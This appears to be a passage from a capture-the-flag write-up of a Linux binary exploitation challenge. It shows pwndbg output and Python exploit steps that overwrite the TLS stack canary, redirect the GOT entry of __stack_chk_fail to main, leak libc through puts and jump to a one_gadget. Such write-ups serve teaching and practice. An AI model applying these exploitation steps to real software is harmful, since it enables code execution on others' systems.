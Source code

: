 #### Modify canary in TLS

the address of a large allocated memory (e.g. 1000000 bytes)  was near the address of `libc` and `ld`

![](http://image.taqini.space/img/20200412234901.png)

```c
search -8 0x9435c714eedda900
                0x7ff50f4b24e8 0x9435c714eedda900
pwndbg> p $rax
$6 = 140690499289104
pwndbg> p/x $rax
$7 = 0x7ff50f3bc010
pwndbg> p 0x7ff50f4b24e8-0x7ff50f3bc010
$8 = 1008856
```

and the offset between of `chunk` and `stack_guard` doesn't change

so we can allocate a 1000000 bytes chuck and modify canary to trigger `__stack_chk_fail`:

```python
se('1000000')  # size
se('1008857')  # index
```

#### back to main

then overwrite GOT of `__stack_chk_fail` with address of `main` 

```python
se('1000000')  # size
se('1008857')  # index
se('6295576')  # where
se(p64(main))  # content
```

so that we can back to `main` again and the real address of `puts` in libc would be leaked:

```python
ru('puts: ')
puts = eval(rc(14))
```

#### one gadget

```python
libcbase = puts-libc.sym['puts']
info_addr('libcabse',libcbase)
og = [324293,324386,1090444]

se('1000000')
se('2012376')
se('6295576')
se(p64(libcbase+og[1]))
```
